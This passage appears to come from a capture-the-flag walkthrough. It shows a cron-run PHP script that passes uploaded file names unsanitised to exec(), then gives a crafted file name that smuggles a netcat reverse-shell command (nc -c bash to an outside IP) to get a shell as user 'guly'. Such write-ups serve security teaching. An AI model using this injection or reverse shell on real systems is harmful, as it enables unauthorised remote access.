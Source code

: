 - Crontab

```bash
bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
bash-4.2$ cat check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

We can try to inject a command execution in one of th exec statements. We can control the value of the variable `$value` , this variable is created in a for loop and is the name of the files in the `/var/www/html/uploads` directory. In each iteration it is set to one the files.

So to inejct a command here we can try the following.

- `echo '' > '/var/www/html/uploads/";$(nc -c bash 10.10.14.14 443);"’`

If we wait some minutes we will receive a shell as user guly.

# Privilege escalation
